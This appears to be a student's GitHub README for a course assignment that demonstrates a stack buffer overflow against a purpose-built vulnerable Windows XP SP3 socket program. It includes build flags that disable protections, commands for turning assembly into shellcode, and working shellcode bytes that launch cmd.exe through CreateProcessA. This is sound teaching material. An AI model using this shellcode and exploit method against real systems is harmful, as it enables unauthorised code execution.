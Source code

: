 # Buffer Overflow Example for Windows XP SP3

## Overview

This project demonstrates a **buffer overflow exploit** targeting a vulnerable program on **Windows XP SP3**. The `shell.asm` x86 shellcode creates a new process using `CreateProcessA` with hardcoded API addresses. Designed for **educational purposes**, it highlights how buffer overflows work and how shellcode executes.

**Created for CS166, HW5. Educational purposes only.**

![Buffer Overflow Demo](output.gif)

---
## Files

- `shell.asm`: Shellcode payload in x86 Intel assembly.
- `bo.c`: Vulnerable program, binds a socket on the given IP and port.
- `exploit.py`: Python script for exploiting the buffer overflow vulnerability.

---

## Usage

### 1. Compile the Vulnerable Program
   Compile the C program using a 32-bit MinGW compiler:
   ```bash
   i686-w64-mingw32-gcc -fno-stack-protector -no-pie -m32 -o bo.exe bo.c -lws2_32
   Usage: .\bo.exe <IP> <PORT> 
   ```

### 2. Compile the Shellcode and Convert to a Hex String
   Assemble the shellcode using NASM and convert it into a hex string:
   ```bash
   nasm -f win32 shellcode.asm -o shellcode.o

   objdump -M intel -d shellcode.o | grep '[0-9a-f]:' | grep -v 'file' | \
   cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | \
   sed 's/ /\\x/g' | tr -d '\n' | sed 's/^/"/' | sed 's/$/"/g'
   ```

   Example Output:
   ```
   "\x31\xd2\x31\xc9\x51\x68\x65\x78\x65\x00\x68\x63\x6d\x64\x2e\x89\xe3\x83\xec\x54\x89\xe7\x51\x58\xb9\x15\x00\x00\x00\xf3\xab\x83\xef\x54\xc6\x07\x44\x8d\x77\x44\x56\x57\x51\x51\x6a\x00\x6a\x01\x51\x51\x53\x51\xb8\x6b\x23\x80\x7c\xff\xd0\x6a\x00\xb8\x0a\xd2\x81\x7c\xff\xd0"
   ```

### 3. Copy the Hex String into `exploit.py`
   Replace the placeholder buffer in `exploit.py` with the generated hex string:
   ```py
   buf = b"\x31\xd2\x31\xc9\x51\x68\x65\x78\x65\x00\x68\x63\x6d\x64\x2e\x89\xe3\x83\xec\x54\x89\xe7\x51\x58\xb9\x15\x00\x00\x00\xf3\xab\x83\xef\x54\xc6\x07\x44\x8d\x77\x44\x56\x57\x51\x51\x6a\x00\x6a\x01\x51\x51\x53\x51\xb8\x6b\x23\x80\x7c\xff\xd0\x6a\x00\xb8\x0a\xd2\x81\x7c\xff\xd0"
   ```

### 4. Run `exploit.py`
   Install the `pwn` library if not already installed:
   ```bash
   pip install pwntools
   ```

   Execute the exploit:
   ```bash
   python exploit.py
   ```
---

## References (IEEE Style)

[1] Shell-Storm, "Shellcode Examples Database," [Online]. Available: [https://shell-storm.org/shellcode/index.html](https://shell-storm.org/shellcode/index.html). [Accessed: Dec. 2, 2024].

[2] Cocomelonc, "Windows Shellcoding Example: Writing and Testing Shellcode for Windows," [Online]. Available: [https://cocomelonc.github.io/tutorial/2021/10/27/windows-shellcoding-1.html](https://cocomelonc.github.io/tutorial/2021/10/27/windows-shellcoding-1.html). [Accessed: Dec. 2, 2024].

[3] M. Valle, "Windows Manual Shellcode Part 3: CreateProcessA," [Online]. Available: [https://marcosvalle.github.io/re/exploit/2018/10/21/windows-manual-shellcode-part3.html](https://marcosvalle.github.io/re/exploit/2018/10/21/windows-manual-shellcode-part3.html). [Accessed: Dec. 2, 2024].

[4] The Grey Corner, "Beginning Stack-Based Buffer Overflow," [Online]. Available: [https://thegreycorner.com/2010/01/07/beginning-stack-based-buffer-overflow.html](https://thegreycorner.com/2010/01/07/beginning-stack-based-buffer-overflow.html). [Accessed: Dec. 2, 2024].

[5] Insecure.org, "Smashing The Stack For Fun And Profit," [Online]. Available: [http://insecure.org/stf/smashstack.html](http://insecure.org/stf/smashstack.html). [Accessed: Dec. 2, 2024].
